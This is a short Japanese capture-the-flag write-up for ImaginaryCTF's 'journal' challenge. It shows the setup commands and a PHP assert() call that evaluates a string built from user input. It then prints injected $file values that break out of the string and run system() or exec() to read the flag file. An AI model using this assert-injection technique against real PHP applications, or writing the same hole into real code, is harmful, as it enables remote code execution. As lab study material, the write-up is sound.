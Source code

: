 # journal

## 問題 環境構築

### 追加ファイル

- flag.txt

### 実行コマンド

コンテナイメージ作成

```
docker build -t ImaginaryCTF/journal .
```

```
docker run -p 8080:80 --name jounal ImaginaryCTF/journal
```

## bypass

phpファイル

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

``$file``をうまい文字列にすることでコマンドを実行するコードを埋め込むことができる

```php
assert("strpos('
system    ','..') === false | exec("cat /flag-kK9PEhVszjyXDTvrZfDO.txt") | strpos('
', '..') === false") or die("Invalid file!");
```

```php
assert("strpos('','..') === false | system("cat /flag-kK9PEhVszjyXDTvrZfDO.txt") | strpos('', '..') === false") or die("Invalid file!");
```

phpのsystem関数はコマンドを実行して出力を表示する関数

[phpマニュアル system](https://www.php.net/manual/ja/function.system.php)

似たような関数でexec関数がある

execは出力しないで変数に格納する

[PHPのsystem関数とexec関数の違いと使い方](https://masanyon.com/php-system-exec/)

## 参考

https://www.cnblogs.com/sijidou/p/10573275.html
